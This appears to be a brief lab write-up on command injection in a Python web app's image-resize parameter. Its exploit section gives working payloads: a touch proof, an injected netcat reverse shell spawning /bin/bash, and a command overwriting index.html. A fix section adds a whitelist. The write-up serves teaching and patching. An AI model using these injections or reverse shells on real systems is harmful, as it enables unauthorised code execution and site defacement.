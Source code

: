 # CMD
## Exploit
```50;touch AAAAAAA;```
really makes the file, so execution is possible . 

For a real exploit, we first need to listen to a certain port on our own system:  
```nc -lvp 4444```
Then in the payload we will use netcat to connect to this listening port and initiate a shell:  
```50; nc 127.0.0.1 4444 -e /bin/bash;```

If you do not have nc but you just want to check if your code execution works, you could for example overwrite the index.html:
```;echo "<html>rishu's solution</html>" > templates/index.html;```

## Fix
change:  
```    os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')```
to:  
```
    whitelist = {"50","150"}
    if sizeImg in whitelist:
        os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')
```
alternative in php template: escapeshellarg() or escapeshellcmd() in PHP . 

